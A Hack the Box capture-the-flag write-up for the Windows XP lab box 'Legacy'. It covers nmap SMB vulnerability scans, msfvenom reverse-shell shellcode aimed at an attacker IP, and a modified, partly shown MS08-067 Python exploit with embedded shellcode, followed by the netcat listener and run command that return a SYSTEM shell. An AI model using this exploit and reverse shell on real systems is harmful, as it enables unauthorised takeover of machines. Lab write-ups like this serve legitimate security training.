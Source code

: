 ```yaml
---
title: Legacy
tags: windows
description: Write-up for Hack the Box - Legacy
---
```


![image](assets/79371281-1f5c9c00-7f22-11ea-957d-45c0a5eb8a97.png)

## Overview

Legacy is a Windows XP SP3 box that was vulnerable to a couple famous smb exploits, MS08-067 (exploited by Conficker) and MS17-010. I went with the former because I had already covered using MS17-010 in the write-up for Blue. The box was pretty straight forward; once I generated a new payload and updated the script I received a callback and shell as 'nt authority/system'.

## Enumeration

**Software**

* Microsoft Windows XP Professional 5.1.2600 SP3 Build 2600

**Port Scan**
```
map -vv -Pn -sT -A -p- 10.10.10.4 -oN /mnt/data/boxes/legacy/_full_tcp_nmap.txt
```

* 139/tcp - smb
* 445/tcp - smb
* 3389/tcp - remote desktop


## Steps (user)

There is no user step, exploit provides 'nt authority\system' shell.

## Steps (root/system)

I started by trying some typical smb commands but was not able to connect or gain any useful information.

![image](assets/82962092-349b0080-9f8d-11ea-9962-d7a949ea6311.png)

I used nmap to scan for smb vulnerabilities and found that it was vulnerable to MS08-067 and MS17-010. I decided to proceed with MS08-067 which was exploited by Conficker.

> Additional Info: Inside story behind [MS08-067](https://docs.microsoft.com/en-us/archive/blogs/johnla/the-inside-story-behind-ms08-067)

```
nmap -p 139,445 -Pn --script=smb-vuln* 10.10.10.4
```

![image](assets/82961915-af175080-9f8c-11ea-93c2-01f6307d190e.png)

Doing an internet search for MS08-067 showed an existing python exploit called "Microsoft Windows - 'NetAPI32.dll' Code Execution (Python)" - https://www.exploit-db.com/exploits/40279

I reviewed the script and updated it with my own shellcode using MSFVenom. I went with a standard shell_reverse_tcp, specified the IP and port, along with the EXITFUNC and badchars as called out in the script.

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.29 LPORT=4200  EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f python
```

The original payload was 380 bytes and mine was 348, so a difference of 32 bytes. To accomodate for this I added an additional 32 NOPs and I added my payload right after.  

```python
import struct
import time
import sys

from threading import Thread    #Thread is imported incase you would like to modify

try:
    from impacket import smb
    from impacket import uuid
    from impacket import dcerpc
    from impacket.dcerpc.v5 import transport
except ImportError, _:
    print 'Install the following library to make this script work'
    print 'Impacket : http://oss.coresecurity.com/projects/impacket.html'
    print 'PyCrypto : http://www.amk.ca/python/code/crypto.html'
    sys.exit(1)

print '#######################################################################'
print '#   MS08-067 Exploit'
print '#   This is a modified verion of Debasis Mohanty\'s code (https://www.exploit-db.com/exploits/7132/).'
print '#   The return addresses and the ROP parts are ported from metasploit module exploit/windows/smb/ms08_067_netapi'
print '#######################################################################\n'

#Reverse TCP shellcode from metasploit; port 443 IP 192.168.40.103; badchars \x00\x0a\x0d\x5c\x5f\x2f\x2e\x40;
#Make sure there are enough nops at the begining for the decoder to work. Payload size: 380 bytes (nopsleps are not included)
#EXITFUNC=thread Important!
# Reverse TCP shellcode from metasploit; port 443 IP 192.168.40.103; badchars \x00\x0a\x0d\x5c\x5f\x2f\x2e\x40;
# Make sure there are enough nops at the begining for the decoder to work. Payload size: 380 bytes (nopsleps are not included)
# EXITFUNC=thread Important!
# Oiriginal -> msfvenom -p windows/meterpreter/reverse_tcp LHOSiT=192.168.30.77 LPORT=443  EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f python
# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.29 LPORT=4200  EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f python

shellcode= "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
shellcode= "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
shellcode+="\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
shellcode+="\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" 
shellcode+="\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90" 
shellcode+=b"\x29\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81"
shellcode+=b"\x76\x0e\xb1\xb3\xda\xda\x83\xee\xfc\xe2\xf4\x4d\x5b"
shellcode+=b"\x58\xda\xb1\xb3\xba\x53\x54\x82\x1a\xbe\x3a\xe3\xea"
shellcode+=b"\x51\xe3\xbf\x51\x88\xa5\x38\xa8\xf2\xbe\x04\x90\xfc"
shellcode+=b"\x80\x4c\x76\xe6\xd0\xcf\xd8\xf6\x91\x72\x15\xd7\xb0"
shellcode+=b"\x74\x38\x28\xe3\xe4\x51\x88\xa1\x38\x90\xe6\x3a\xff"
shellcode+=b"\xcb\xa2\x52\xfb\xdb\x0b\xe0\x38\x83\xfa\xb0\x60\x51"
shellcode+=b"\x93\xa9\x50\xe0\x93\x3a\x87\x51\xdb\x67\x82\x25\x76"
shellcode+=b"\x70\x7c\xd7\xdb\x76\x8b\x3a\xaf\x47\xb0\xa7\x22\x8a"
shellcode+=b"\xce\xfe\xaf\x55\xeb\x51\x82\x95\xb2\x09\xbc\x3a\xbf"
shellcode+=b"\x91\x51\xe9\xaf\xdb\x09\x3a\xb7\x51\xdb\x61\x3a\x9e"
shellcode+=b"\xfe\x95\xe8\x81\xbb\xe8\xe9\x8b\x25\x51\xec\x85\x80"
shellcode+=b"\x3a\xa1\x31\x57\xec\xdb\xe9\xe8\xb1\xb3\xb2\xad\xc2"
shellcode+=b"\x81\x85\x8e\xd9\xff\xad\xfc\xb6\x4c\x0f\x62\x21\xb2"
shellcode+=b"\xda\xda\x98\x77\x8e\x8a\xd9\x9a\x5a\xb1\xb1\x4c\x0f"
shellcode+=b"\x8a\xe1\xe3\x8a\x9a\xe1\xf3\x8a\xb2\x5b\xbc\x05\x3a"
shellcode+=b"\x4e\x66\x4d\xb0\xb4\xdb\xd0\xd0\xbf\xae\xb2\xd8\xb1"
shellcode+=b"\xa3\xb2\x53\x57\xd9\xca\x8c\xe6\xdb\x43\x7f\xc5\xd2"
shellcode+=b"\x25\x0f\x34\x73\xae\xd6\x4e\xfd\xd2\xaf\x5d\xdb\x2a"
shellcode+=b"\x6f\x13\xe5\x25\x0f\xd9\xd0\xb7\xbe\xb1\x3a\x39\x8d"
shellcode+=b"\xe6\xe4\xeb\x2c\xdb\xa1\x83\x8c\x53\x4e\xbc\x1d\xf5"
shellcode+=b"\x97\xe6\xdb\xb0\x3e\x9e\xfe\xa1\x75\xda\x9e\xe5\xe3"
shellcode+=b"\x8c\x8c\xe7\xf5\x8c\x94\xe7\xe5\x89\x8c\xd9\xca\x16"
shellcode+=b"\xe5\x37\x4c\x0f\x53\x51\xfd\x8c\x9c\x4e\x83\xb2\xd2"
shellcode+=b"\x36\xae\xba\x25\x64\x08\x3a\xc7\x9b\xb9\xb2\x7c\x24"
shellcode+=b"\x0e\x47\x25\x64\x8f\xdc\xa6\xbb\x33\x21\x3a\xc4\xb6"
shellcode+=b"\x61\x9d\xa2\xc1\xb5\xb0\xb1\xe0\x25\x0f"

...truncated...
```

Looking at the script there are different return addresess for various different operating systems. This took a little trial and error but eventually it worked with option 6, 'Windows XP SP3 English (NX)'.

I started a netcat listener (nc -lvnp 4200) and ran the command with the parameter of 6 and received a shell

```
python ./40279.py 10.10.10.4 6
```

![image](assets/82964410-6911bb00-9f93-11ea-93e0-589070840765.png)

Note: This version of windows doesn't have whoami.exe so I had to upload it.

![image](assets/82964583-d1f93300-9f93-11ea-8a44-5456da5ffb1b.png)

